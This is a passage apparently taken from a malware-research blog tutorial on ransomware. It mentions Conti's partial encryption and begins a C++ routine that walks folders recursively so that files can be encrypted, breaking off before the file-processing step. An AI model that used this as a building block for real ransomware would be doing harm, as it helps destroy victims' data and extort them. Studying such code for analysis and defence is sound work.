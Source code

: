 ![cryptography](/assets/images/115/2024-01-20_20-12.png){:class="img-responsive"}      

As we can see, everything is wokred perfectly! =^..^=   

### practical example 2

But, in the wild, ransomware do not always encrypt the entire file if it is very large. For example [Conti ransomware](/investigation/2022/03/27/malw-inv-conti-1.html) used partial encryption.

Also ransomware recursive encrypt folders, it might look something like this:     

```cpp
void handleFiles(const char* folderPath) {
  WIN32_FIND_DATAA findFileData;
  char searchPath[MAX_PATH];
  sprintf_s(searchPath, MAX_PATH, "%s\\*", folderPath);

  HANDLE hFind = FindFirstFileA(searchPath, &findFileData);

  if (hFind == INVALID_HANDLE_VALUE) {
    printf("Error: %d\n", GetLastError());
    return;
  }

  do {
    const char* fileName = findFileData.cFileName;

    if (strcmp(fileName, ".") == 0 || strcmp(fileName, "..") == 0) {
      continue;
    }

    char filePath[MAX_PATH];
    sprintf_s(filePath, MAX_PATH, "%s\\%s", folderPath, fileName);

    if (findFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
      // Recursive call for subfolders
      handleFiles(filePath);
    } else {
      // Process individual files
```